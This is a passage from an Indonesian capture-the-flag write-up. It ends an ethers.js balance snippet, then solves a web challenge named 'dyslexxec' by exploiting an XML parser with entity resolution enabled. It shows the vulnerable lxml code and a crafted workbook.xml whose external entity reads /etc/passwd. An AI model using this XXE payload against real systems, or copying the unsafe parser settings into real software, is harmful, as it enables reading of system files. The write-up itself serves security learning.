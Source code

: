 ```python
    console.log(
        {
            "BlockNumber": BlockNum,
            "Balance": eval(Balance["_hex"]),
            "Contact": {
                "data": data,
            }
        }
    )
}

myEther()
```

Referensi:
https://docs.ethers.io/v5/
https://www.youtube.com/watch?v=g_t0Td4Kr6M 

# dyslexxec (web)

Tipe serangan XXE dan LFI
Pada source file getExcelMetadata.py kita akan melihat fungsi findInternalFilepath

```python
def findInternalFilepath(filename):
    try:
        prop = None
        parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
        tree = etree.parse(filename, parser=parser)
        root = tree.getroot()
        internalNode = root.find(".//{http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac}absPath")
        if internalNode != None:
            prop = {
                "Fieldname":"absPath",
                "Attribute":internalNode.attrib["url"],
                "Value":internalNode.text
            }
        return prop

```

Ini vulnerable dengan serangan XXE karena file "xl/workbook.xml" dari file excell yang kita upload akan terparse terlebih dahulu dengan "etree.XMLParser".
disini kita perlu menambah XML Entitiy yang akan mempoint ke file /etc/passwd dimana flag berada.

unzip excel dan rubah pada file "xl/workbook.xml" lalu zip lagi dengan format .xml

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
...snip...
           <x15ac:absPath url="/Users/Shared/" xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac">&example;</x15ac:absPath>
...snip...
```
